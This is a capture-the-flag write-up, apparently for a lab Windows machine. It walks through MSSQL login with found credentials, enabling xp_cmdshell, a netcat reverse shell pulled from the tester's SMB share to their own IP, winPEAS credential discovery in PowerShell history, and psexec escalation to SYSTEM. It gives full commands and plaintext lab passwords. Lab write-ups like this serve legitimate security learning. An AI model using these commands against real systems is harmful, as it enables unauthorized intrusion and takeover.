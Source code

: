 With mssqlclient.py and sql_svc:M3g4c0rp123 credentials we go in

```bash
┌──(kali㉿kali)-[~]
└─$ python3 /usr/share/doc/python3-impacket/examples/mssqlclient.py sql_svc@10.129.122.134 -windows-auth 
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
[*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
SQL> show databases;
[-] ERROR(ARCHETYPE): Line 1: Could not find stored procedure 'show'.
SQL> help

     lcd {path}                 - changes the current local directory to {path}
     exit                       - terminates the server process (and this session)
     enable_xp_cmdshell         - you know what it means
     disable_xp_cmdshell        - you know what it means
     xp_cmdshell {cmd}          - executes cmd using xp_cmdshell
     sp_start_job {cmd}         - executes cmd using the sql server agent (blind)
     ! {cmd}                    - executes a local shell cmd
```

Here we can execute commands by ``xp_cmdshell {command}`` but is deactivated. We check if we are admin by using ``SELECT is_srvrolemember('sysadmin');`` and it returns 1 so yes, we are an admin user. We can enable xp_cmdshell executing the command ``enable_xp_cmdshell``.

Now we try some commands and we will see that we are located inside System32 folder

```bash
SQL> xp_cmdshell dir
output                                                                           
--------------------------------------------------------------------------------   
 Volume in drive C has no label.                                                 
 Volume Serial Number is 9565-0B4F                                                 
NULL                                                                               
 Directory of C:\Windows\system32
```

We try to get a reverse shell with the binary nc.exe but it doesn't work because nc is not located in the system

```bash
SQL> xp_cmdshell nc.exe -e cmd.exe 10.10.15.9 8000
output                                                                             
--------------------------------------------------------------------------------   
'nc.exe' is not recognized as an internal or external command,     
operable program or batch file.
```

So we create a smb folder in our kali machine and we will try to upload and execute nc.exe . First we try a smb folder without authentication but it fails

```bash
SERVER IN OUR KALI LINUX
┌──(kali㉿kali)-[~]
└─$ sudo impacket-smbserver share -smb2support ~/Documents/StartingPoint

<----------------->

MSSQL SERVER
SQL> xp_cmdshell copy \\10.10.15.9\share\nc.exe
output                                                                             
You can't access this shared folder because your organization's security policies block unauthenticated guest access. These policies help protect your PC from unsafe or malicious devices on the network.   

NULL
```

So we have to build a smb folder with authentication

```bash
SERVER IN OUR KALI LINUX
┌──(kali㉿kali)-[~]
└─$ sudo impacket-smbserver share -smb2support ~/Documents/StartingPoint -user test -password test

<----------------->

MSSQL SERVER
SQL> xp_cmdshell net use n: \\10.10.15.9\share /user:test test
output            

The command completed successfully.
```

And now we have the nc.exe bin in the server. Open a netcat listener and we got a shell as sql_svc user

```bash
SQL> xp_cmdshell \\10.10.15.9\share\nc.exe -e cmd.exe 10.10.15.9 8000

<----------------->

C:\Windows\system32>whoami
whoami
archetype\sql_svc
```

Now we have to enumerate so lets try with winPEAS. We download it from **[here](https://github.com/carlospolop/PEASS-ng/releases/download/refs%2Fpull%2F260%2Fmerge/winPEASx64.exe)** and we will use our previous smb session (open again if you have closed the connection). We execute the binary without storing it

```bash
C:\Windows\system32>\\10.10.15.9\share\winPEASx64.exe
```

And it will execute winPEAS, where we can see a file located in C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt where we retrieve the admin credentials (administrator:MEGACORP_4dm1n!!)

Now we can get a nt authority\system session using psexec.py script from impacket

```bash
┌──(kali㉿kali)-[~/Documents/StartingPoint]
└─$ python3 /usr/share/doc/python3-impacket/examples/psexec.py administrator@10.129.122.134
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
[*] Requesting shares on 10.129.122.134.....
[*] Found writable share ADMIN$
[*] Uploading file BapUxoBa.exe
[*] Opening SVCManager on 10.129.122.134.....
[*] Creating service oaXT on 10.129.122.134.....
[*] Starting service oaXT.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.2061]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

And we are root